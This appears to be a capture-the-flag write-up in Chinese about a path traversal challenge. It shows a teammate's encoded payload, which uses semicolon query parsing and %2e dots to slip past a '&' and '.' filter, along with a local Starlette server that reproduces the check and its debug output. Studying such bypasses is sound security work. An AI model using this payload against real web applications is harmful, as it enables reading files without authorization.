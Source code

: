 這題的 flag 在 `./memo/flag` 底下，所以只要想辦法讓上面那一段的 path 可以讀到 flag 就勝利了。

隊友最後用這個 payload：`/view?id=flag;%2f%2e%2e/;`，因為對 python 太不熟，所以起個簡單的 server 來觀察一下：

``` python
from urllib.parse import unquote
import uvicorn
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import JSONResponse

def view(request):

    try:
        clientId = "id"
        print("request.url:", request.url)
        print("request.url.query", request.url.query)
        print("params:", request.query_params)
        print("unquote params:", unquote(request.query_params[clientId]))
        if '&' in request.url.query or '.' in request.url.query or '.' in unquote(request.query_params[clientId]):
            raise
        
        filename = request.query_params[clientId]
        print("filename:", filename)
        print("keys:", request.query_params.keys())
        path = './memo/' + "".join(request.query_params.keys()) + '/' + filename
        print("path:", path)
    
    except:
        pass
    
    return JSONResponse({"a":1})

routes = [
    Route('/view', endpoint=view)
]

app = Starlette(debug=True, routes=routes)

if __name__ == "__main__":
    uvicorn.run(app, host="0.0.0.0", port=11000)
```

先來看一下隊友的 payload 會怎樣：`/view?id=flag;%2f%2e%2e/;`

```
request.url: http://0.0.0.0:11000/view?id=flag;%2f%2e%2e/;
request.url.query id=flag;%2f%2e%2e/;
params: id=flag&%2F..%2F=
unquote params: flag
filename: flag
keys: dict_keys(['id', '/../'])
path: ./memo/id/..//flag
```
